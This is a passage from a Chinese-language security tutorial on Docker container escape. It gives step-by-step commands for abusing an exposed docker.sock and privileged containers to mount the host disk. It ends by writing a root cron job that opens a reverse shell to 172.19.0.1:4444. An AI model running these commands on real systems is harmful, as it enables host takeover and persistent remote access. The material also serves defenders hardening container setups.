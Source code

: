 2.  在容器查看宿主机 docker 信息：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>docker -H unix:///var/run/docker.sock info<br>``` |

3.  运行一个新容器并挂载宿主机根路径：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>docker -H unix:///var/run/docker.sock run -it -v /:/test ubuntu /bin/bash<br>``` |

4.  在新容器的 /test 目录下，就可以访问到宿主机的全部资源，接下来就是写入 SSH 密钥或者写入计划任务，获取 shell。

### [](#33-docker-%E9%AB%98%E5%8D%B1%E5%90%AF%E5%8A%A8%E5%8F%82%E6%95%B0)3.3 Docker 高危启动参数

Docker 中存在一些比较高危的启动命令，给予容器较大的权限，允许执行一些特权操作，在一定的条件下，可以导致容器逃逸。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>``` | ```bash<br>docker run --rm -it <br>    --privileged <br>    -v /:/soft <br>    --cap-add=SYS_ADMIN <br>    --net=host  <br>    --pid=host    <br>    --ipc=host <br>    ubuntu <br>    /bin/bash<br>``` |

#### [](#%E7%89%B9%E6%9D%83%E6%A8%A1%E5%BC%8F---privileged)特权模式 –privileged

使用特权模式启动的容器时，docker 管理员可通过 mount 命令将外部宿主机磁盘设备挂载进容器内部，获取对整个宿主机的文件读写权限，此外还可以通过写入计划任务等方式在宿主机执行命令。

-   通过特权模式运行一个容器：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>docker run -itd --privileged ubuntu:latest /bin/bash<br>``` |

-   在容器内，查看磁盘文件：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>fdisk -l<br>``` |

-   将 `/dev/sda1` 挂载到新建目录

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```bash<br>mkdir /test<br>mount /dev/sda1 /test<br>``` |

-   将计划任务写入到宿主机

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>echo '* * * * * /bin/bash -i >& /dev/tcp/172.19.0.1/4444 0>&1' >> /test/var/spool/cron/crontabs/root<br>``` |

### [](#34-docker-%E8%BD%AF%E4%BB%B6%E8%AE%BE%E8%AE%A1%E5%BC%95%E8%B5%B7%E7%9A%84%E9%80%83%E9%80%B8)3.4 Docker 软件设计引起的逃逸
